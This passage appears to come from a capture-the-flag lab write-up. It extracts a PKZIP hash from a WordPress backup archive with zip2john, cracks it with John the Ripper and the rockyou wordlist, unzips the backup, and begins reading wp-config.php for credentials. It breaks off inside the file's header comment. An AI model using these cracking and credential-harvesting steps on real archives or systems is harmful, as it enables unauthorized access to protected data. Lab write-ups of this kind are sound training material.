 # zip2john wordpress.old.zip > wordpress_hash.txt

┌──(root㉿docker-desktop)-[/]
└─# cat wordpress_hash.txt
wordpress.old.zip:$pkzip$8*1*1*0*0*24*a31c*c2fb90b3964ce4863c047a66cc23c2468ea4fffe2124c38cb9c91659b31793de138ae891*1*0*0*24*a31c*7722f8032fb202c65e40d0d76a91cdfa948dc7e6857f209a06627320940fa5bcbb2603e6*1*0*0*24*a31c*592448eb70b5198cef005c60d3aeb3d78465376eaa5f465e1c2dd7c890d613102e284c88*1*0*0*24*a320*f87c1c69a82331ca288320268e6c556a6ddc31a03e519747bd7b811b6b837527c82abe0e*1*0*0*24*a320*dc42fd5700a7ab7a3353cc674906dec0d6b997d8d56cc90f1248d684df3382d4d8c3ea45*1*0*0*24*a320*c96021e04f0d8a5ce6f787365277b4c9966e228fe80a3d29bc67d14431ecbab621d9cb77*1*0*0*24*a320*35fe982e604f7d27fedd1406d97fc4e874ea7df806bda1fea74676d3510a698ec6a7a3ac*2*0*26*1a*8c9ae7e6*60ed*6c*0*26*a31c*7106504d46479d273327e56f5e3a9dd835ebf0bf28cc32c4cb9c0f2bb991b7acaaa97c9c3670*$/pkzip$::wordpress.old.zip:wordpress.old/wp-content/plugins/akismet/index.php, wordpress.old/wp-content/index.php, wordpress.old/wp-content/plugins/index.php, wordpress.old/wp-content/themes/index.php, wordpress.old/wp-includes/blocks/spacer/style.min.css, wordpress.old/wp-includes/blocks/spacer/style-rtl.min.css, wordpress.old/wp-includes/blocks/spacer/style.css, wordpress.old/wp-includes/blocks/spacer/style-rtl.css:wordpress.old.zip

# john --wordlist=/usr/share/wordlists/rockyou.txt wordpress_hash.txt

┌──(root㉿docker-desktop)-[/]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt wordpress_hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hero_gege@hotmail.com (wordpress.old.zip)  
1g 0:00:00:00 DONE (2025-07-26 08:35) 1.369g/s 10458Kp/s 10458Kc/s 10458KC/s hesse..hellome2010
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

# cracking success -> hero_gege@hotmail.com (wordpress.old.zip)

gege@ip-10-10-97-230:~$ unzip wordpress.old.zip

wordpress.old wordpress.old.zip
gege@ip-10-10-97-230:~$ cd wordpress.old/
gege@ip-10-10-97-230:~/wordpress.old$ ls
index.php readme.html wp-admin wp-comments-post.php wp-content wp-includes wp-load.php wp-mail.php wp-signup.php xmlrpc.php
license.txt wp-activate.php wp-blog-header.php wp-config.php wp-cron.php wp-links-opml.php wp-login.php wp-settings.php wp-trackback.php
gege@ip-10-10-97-230:~/wordpress.old$ cat wp-config.php

<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the web site, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
